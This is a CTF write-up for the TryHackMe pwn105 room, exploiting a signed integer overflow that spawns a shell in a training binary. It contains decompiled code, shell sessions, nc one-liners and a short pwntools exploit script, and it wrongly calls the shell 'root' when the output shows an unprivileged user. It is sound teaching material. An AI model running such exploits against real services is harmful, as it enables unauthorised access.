



# TryHackMe — pwn105

* **Room:** [TryHackMe — pwn101](https://tryhackme.com/room/pwn101)  
* **Category:** Binary Exploitation  
* **Difficulty:** Easy  
* **Date:** 2026-11-15  
* **Tools:** `file`, `checksec`, IDA Pro, Python 3, `pwntools`  
* **Binary:** 64-bit ELF (`pwn105-1644300421555.pwn105`) — not redistributed (TryHackMe content)  

---

## TL;DR

In this challenge, we exploit a classic **Signed 32-bit Integer Overflow** vulnerability. The program prompts the user to input two numbers, checks that neither input is negative (`v5 < 0 || v6 < 0`), adds them together into variable `v7 = v5 + v6`, and executes `system("/bin/sh")` if the resulting sum is negative (`v7 < 0`). 

By taking advantage of the signed 32-bit integer boundary (`INT_MAX = 2,147,483,647` or `0x7FFFFFFF`), we provide two large positive integers (such as `2,000,000,000` and `500,000,000`). Their mathematical sum (`2,500,000,000`) exceeds `INT_MAX`, causing the highest bit (the sign bit) to flip to `1` in two's complement arithmetic. The signed result wraps around to `-1,794,967,296`, satisfying the `v7 < 0` condition and popping an interactive root shell.

---

## Recon

We begin by examining the binary's architecture and compiler mitigations using `file` and `checksec`:



Key observations:
* **File Type:** ELF 64-bit LSB pie executable, x86-64, dynamically linked, not stripped.
* **Canary:** `Canary found` — Stack canary is active, though not relevant since no memory corruption or buffer overflow is required.
* **NX:** `NX enabled` — Non-executable stack.
* **PIE:** `PIE enabled` — Position Independent Executable.
* **RELRO:** `Partial RELRO`.

When running the binary interactively:
```text
$ ./pwn105-1644300421555.pwn105
        pwn 105
=[ BAD INTEGERS ]=-------
|-< Enter two numbers to add >-|

]>> 1
]>> 2

[*] ADDING 1 + 2
[*] RESULT: 3
```
The application behaves as a simple calculator taking two integers and printing their sum.

---

## Static Analysis & Decompilation

Opening the binary in IDA Pro reveals the decompilation of `main()`:



```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v5; // [rsp+0Ch] [rbp-14h] BYREF
  int v6; // [rsp+10h] [rbp-10h] BYREF
  int v7; // [rsp+14h] [rbp-Ch]
  unsigned __int64 v8; // [rsp+18h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  setup(argc, argv, envp);
  banner();
  puts("=[ BAD INTEGERS ]=-------");
  puts("|-< Enter two numbers to add >-|\n");
  printf("]>> ");
  __isoc99_scanf("%d", &v5);
  printf("]>> ");
  __isoc99_scanf("%d", &v6);
  v7 = v5 + v6;
  if ( v5 < 0 || v6 < 0 )
  {
    printf("\n[0.0] Hmmm... that was a Good try!\n");
  }
  else if ( v7 < 0 )
  {
    printf("\n[*] C: %d", v7);
    puts("\n[*] Popped Shell\n[*] Switching to interactive mode");
    system("/bin/sh");
  }
  else
  {
    printf("\n[*] ADDING %d + %d", v5, v6);
    printf("\n[*] RESULT: %d\n", v7);
  }
  return v8 - __readfsqword(0x28u);
}
```

### Analysis of the Logic Gates:
1. `scanf("%d", &v5)` and `scanf("%d", &v6)` read signed 32-bit integers into `v5` and `v6`.
2. The program checks `if ( v5 < 0 || v6 < 0 )`. If either input is negative, it prints `"Hmmm... that was a Good try!"` and exits.
3. Next, it checks `else if ( v7 < 0 )`. If the sum is strictly negative, it invokes `system("/bin/sh")`!
4. Otherwise, it prints the standard sum.

---

## Arithmetic Vulnerability & Overflow Mechanism

The variables `v5`, `v6`, and `v7` are declared as standard 32-bit signed integers (`int` in C on x86_64).

### 1. Integer Range & Two's Complement Representation
A signed 32-bit integer uses 31 bits for magnitude and the Most Significant Bit (MSB, bit 31) as the sign bit:
* **Minimum Value (`INT_MIN`):** $-2^{31} = -2,147,483,648$ (`0x80000000`)
* **Maximum Value (`INT_MAX`):** $2^{31} - 1 = 2,147,483,647$ (`0x7FFFFFFF`)

```text
+-------------------------------------------------------------------------+
|                  Signed 32-bit Integer Number Line Ring                 |
+-------------------------------------------------------------------------+
|                                    0                                    |
|                             .             .                             |
|                        .                       .                        |
|                  -1,000,000,000         +1,000,000,000                  |
|                    .                               .                    |
|                   .                                 .                   |
|           INT_MIN: -2,147,483,648  <--->  +2,147,483,647: INT_MAX       |
|                                    ^                                    |
|                       OVERFLOW WRAP-AROUND OCCURS                       |
|                 (Adding two large positives crosses into -)             |
+-------------------------------------------------------------------------+
```

### 2. Crafting the Overflow
To satisfy `v5 >= 0` and `v6 >= 0` while forcing `v7 < 0`, we pick two positive numbers whose sum exceeds `INT_MAX`:
* $v_5 = 2,000,000,000$ (`0x77359400`)
* $v_6 = 500,000,000$ (`0x1DCD6500`)

Both are valid positive integers. When added together:
$$v_5 + v_6 = 2,500,000,000 \quad (0\text{x}9502F900)$$

In 32-bit two's complement, bit 31 is set to `1`, which represents a negative number:
$$2,500,000,000 - 2^{32} = 2,500,000,000 - 4,294,967,296 = -1,794,967,296$$

Because $-1,794,967,296 < 0$, the check `else if (v7 < 0)` evaluates to **true**!

---

## Dynamic Exploitation & Spawning Shell

Running the binary with our inputs:



```text
$ ./pwn105-1644300421555.pwn105
        pwn 105
=[ BAD INTEGERS ]=-------
|-< Enter two numbers to add >-|

]>> 2000000000
]>> 500000000

[*] C: -1794967296
[*] Popped Shell
[*] Switching to interactive mode
sh-5.3$ whoami
thang
```

---

## Exploitation Strategy & Manual CLI Execution

Because this vulnerability stems entirely from an integer boundary logic flaw without requiring payload padding, stack alignment, or memory corruption primitives, **no complex exploit script is required**. You can solve it completely by hand directly from your keyboard via Netcat (`nc`):

```bash
$ nc <TARGET_IP> 9005
        pwn 105
=[ BAD INTEGERS ]=-------
|-< Enter two numbers to add >-|

]>> 2000000000
]>> 500000000

[*] C: -1794967296
[*] Popped Shell
[*] Switching to interactive mode
id
uid=1001(pwn105) gid=1001(pwn105) groups=1001(pwn105)
cat flag.txt
THM{redacted}
```

Alternatively, you can pipe the two numbers in a single shell command:
```bash
(printf "2000000000\n500000000\n"; cat) | nc <TARGET_IP> 9005
```

### Optional Automation Script (`exploit.py`)

For automated testing or CTF harness integration, an optional Python script is provided in [`exploit.py`](exploit.py):

```python
#!/usr/bin/env python3
"""TryHackMe - pwn105 Automation Script
Vulnerability: Signed 32-bit Integer Overflow
Concept: Sum of two large positive integers exceeds INT_MAX (0x7FFFFFFF),
         wrapping around to a negative value to trigger system("/bin/sh").
"""

from pwn import *
import sys

def start():
    if args.REMOTE:
        # python3 exploit.py REMOTE <IP> 9005
        return remote(sys.argv[1], int(sys.argv[2]))
    return process("./pwn105-1644300421555.pwn105")

p = start()

# Two large positive numbers whose sum exceeds 2,147,483,647 (INT_MAX)
num1 = b"2000000000"
num2 = b"500000000"

p.recvuntil(b"]>> ")
p.sendline(num1)

p.recvuntil(b"]>> ")
p.sendline(num2)

log.success("Integer overflow triggered! Enjoy your shell.")
p.interactive()
```

---

## Flag

```text
THM{redacted}
```

---

## Key Takeaways & Lessons

1. **Signed Arithmetic Wrap-Around:** In signed integer representation, arithmetic overflow does not throw an error in C/C++; instead, values wrap around circularly across the sign boundary. When the sum of two positive numbers exceeds `0x7FFFFFFF`, the most significant bit flips and the CPU interprets the result as negative.
2. **Defensive Range Validation:** To prevent integer overflow vulnerabilities, programs must validate additions *before* performing the operation, e.g.:
   ```c
   if (INT_MAX - v5 < v6) {
       // Handle overflow error
   }
   ```
3. **Flawed Security Assumptions:** Checking only the input variables (`v5 < 0 || v6 < 0`) without considering the arithmetic range of their combined output creates a false sense of security that adversaries can trivially bypass.
